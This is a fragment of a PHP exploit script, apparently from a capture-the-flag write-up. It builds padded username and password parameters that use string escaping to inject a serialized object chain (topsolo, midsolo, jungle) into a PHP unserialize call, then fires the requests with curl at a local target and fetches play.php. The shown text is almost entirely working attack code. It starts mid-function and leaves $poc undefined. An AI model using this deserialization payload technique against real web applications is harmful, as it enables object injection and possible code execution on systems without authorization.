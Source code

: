 ```php
    $pad = '";s:7:" * pass";s:111:"0';
    $username = 'drom'.str_repeat('\0*\0',(strlen($pad))/2);
    $password = '0'.'";s:4:"drom";'.$poc.'s:8:"\0*\0admin";i:0;}';
    $args = '?username='.urlencode($username).'&password='.urlencode($password);
    return $args;
}

function CURL($url){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, FALSE);
    curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, FALSE);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
    $output = curl_exec($ch);
    curl_close($ch);
    return $output;
}

$tmp  = console(serialize(new topsolo(new midsolo(new jungle()))));
$url = 'http://127.0.0.1/qw/webfuzhu/html/';
CURL($url.pad($tmp));
echo CURL($url.'play.php');
```
